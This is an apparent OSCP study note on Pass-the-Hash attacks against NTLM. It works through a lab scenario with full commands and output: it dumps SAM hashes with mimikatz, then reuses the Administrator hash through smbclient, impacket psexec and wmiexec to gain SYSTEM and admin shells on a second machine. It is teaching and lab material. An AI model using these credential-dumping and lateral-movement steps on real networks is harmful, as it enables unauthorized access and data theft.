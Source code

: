 
# Passing NTLM Hashes
When you get an [NTLM](../../networking/protocols/NTLM.md) hash from a victim system, you may not have to [crack it](cracking-NTLM.md). Because older versions of NTLM are insecure, and the authentication mechanism SUX, the victim system may be configured to *authenticate you with the hash and username alone*, no password needed. This is when you can use a *Pass the Hash* technique.

NTLM password hases *are not salted* and are *static between sessions*. They can be used (in combo w/ a username) to authenticate to local and remote machines, and to multiple machines on a network/ domain (as long as each target has an account with the same username and password). However, since Windows Vista, all [Windows](../../computers/windows/README.md) versions have *UAC Remote Restrictions* enabled by default, which mitigates this vuln.
## Example Scenario
Let's say we have two machines on a system, `Files01` and `Files02`. On `Files01` we found the username `gunther` with a password `password123`. 

On `Files02` there is a restricted [SMB](../../networking/protocols/SMB.md) share that we want to gain access to, but we need Admin privileges. Let's assume both machines have an `Administrator` user with the same password (which is common to see). 

If we connect to `Files01` using [RDP](../../networking/protocols/RDP.md) and the `gunther` account and password, we can see if we have access to the target SMB share by entering its path in Windows Explorer: `\\192.168.50.212\secretes`. Once we enter the filepath, we're prompted for credentials.
![](../oscp-pics/passing-NTLM-1.png)
Entering creds for `gunther` doesn't work, meaning the account doesn't have the right permissions, of *the account doesn't exist on `Files02`* where the `\secret` share is located. Let's break out [mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) to see if we can capture the NTLM hash for the local Administrator:
### Mimikatz
Just like in [cracking NTLM](cracking-NTLM.md), we'll get our `mimikatz.exe` binary onto `Files01`. Then open a [powershell](../../computers/windows/powershell.md) window as Administrator and run mimikatz. Once in the mimikatz repl shell thing, we'll run `privilege::debug` to gain the `SeDebugPrivilege` access rights on the machine. Then we can run `token::elevate` to get the NTLM hash for a process or account that has privileges to dump the [SAM](../../computers/windows/SAM.md).  Once we've done that, then we can run `lsadump::sam` to dump all of the NTLM hashes from the SAM and get the hash for the `Administator` user (local to `Files01`):
```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
...

mimikatz # lsadump::sam
...
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
...
```
### Tools for Passing the Hash
There are a few tools we can use to pass the hash, inlcuding Mimikatz:
- [smbclient](../../CLI-tools/linux/remote/smbclient.md)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec?tab=readme-ov-file)
- [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md)
	- [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) for command execution
	- [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) for command execution
- [RDP](../../networking/protocols/RDP.md)
### Using `smbclient`
To Pass the Hash with [smbclient](../../CLI-tools/linux/remote/smbclient.md) we just have to add the `--pw-nt-hash` flag along with the username and share path:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Thu Jun  2 16:55:35 2022
  secrets.txt                         A        4  Thu Jun  2 11:34:47 2022

                4554239 blocks of size 4096. 771633 blocks available

smb: \> get secrets.txt
getting file \secrets.txt of size 4 as secrets.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
After giving the `smbclient` command, we gain a repl on the `\secrets` share of `Files02`. From here, we can use the `get` command to download the `secrets.txt` file onto our computer. Once we download that, we can disconnect from the share and cat the file to our terminal to see what it contains.
### Using `psexec.py`
`psexec.py` is an [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md) script that is very similar to the OG [PsExec command](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) which is a Microsoft command line tool that's supposed to be a "light-weight [telnet](../../networking/protocols/telnet.md) replacement that lets you execute processes on other systems."

`psexec.py` works by searching for *writeable shares*. Once its found one, it will upload *an executable to it*. Then it will *register the executable as a Windows service* and start it. The result is an *interactive shell* (or some other form of code execution).

To execute this on Kali we can use the [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/) python package. This will allow us to access all of impacket's scripts as commands using the syntax: `impacket-<script name>`. To use the `psexec` script (with the hash we collected) our command would be:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.50.212.....
[*] Found writable share ADMIN$
[*] Uploading file nvaXenHl.exe
[*] Opening SVCManager on 192.168.50.212.....
[*] Creating service MhCl on 192.168.50.212.....
[*] Starting service MhCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES02

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32> whoami
nt authority\system
```
BOOM! We used the local admin account's NTLM hash to gain a shell on the `Files02` machine.
### Using `wmiexec.py`
`wmiexec.py` is another impacket script we can use in combination with out hash to gain access to `Files02` as the local admin. All we have to do is run it with the `impacket-script` package and the same flags as we gave for `psexec.py`:
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```
This script uses the Windows [WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (Windows Management Instrumentation) system which runs under a user account (has to be an Admin account). It also doesn't generate event log messages (according to the `wmiexec.py` author comments).

> [!Resources]
> - [CrackMapExec Repo (no longer maintained RIP)](https://github.com/byt3bl33d3r/CrackMapExec?tab=readme-ov-file)
> - [Microsoft: PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
> - [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/)
> - [Microsoft: WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
